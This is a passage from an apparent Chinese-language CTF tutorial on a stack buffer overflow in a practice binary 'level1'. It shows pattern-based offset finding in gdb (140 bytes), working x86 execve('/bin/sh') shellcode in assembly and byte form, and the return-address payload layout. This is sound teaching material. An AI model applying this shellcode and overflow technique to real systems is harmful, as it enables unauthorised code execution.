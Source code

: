 **分析调试**

接下来我们开始对目标程序进行分析。首先我们先来确定溢出点的位置，这里使用pattern.py脚本，使用如下命令来生成一串测试用的150个字节的字符串：

```
python pattern.py create 150 
Aa0Aa1Aa2(...skip...)e6Ae7Ae8Ae9
```

随后我们使用gdb ./level1调试程序。

```
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level1
Aa0Aa1Aa2(...skip...)Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
```

我们可以得到内存出错的地址为0x37654136。随后我们使用命令：

```
python pattern.py offset 0x37654136
hex pattern decoded as: 6Ae7
140
```

就可以非常容易的计算出PC返回值的覆盖点为140个字节。我们只要构造一个”A”*140+ret字符串，就可以让pc执行ret地址上的代码了。
接下来我们需要一段shellcode，可以用msf生成，或者自己反编译一下。

```
execve ("/bin/sh") 
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f ;; hs//
push 0x6e69622f ;; nib/
mov ebx, esp
mov al, 11
int 0x80

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
```

这里我们使用一段最简单的执行execve ("/bin/sh")命令的语句作为shellcode。

溢出点有了，shellcode有了，下一步就是控制PC跳转到shellcode的地址上:

```
 [shellcode][“AAAAAAAAAAAAAA”….][ret]
 ^------------------------------------------------|
```

注意这里定位shellcode地址有个坑，gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们不通过gdb调试直接执行./level1的时候，buf的位置会固定在别的地址上。最简单解决的方法就是开启core dump这个功能。

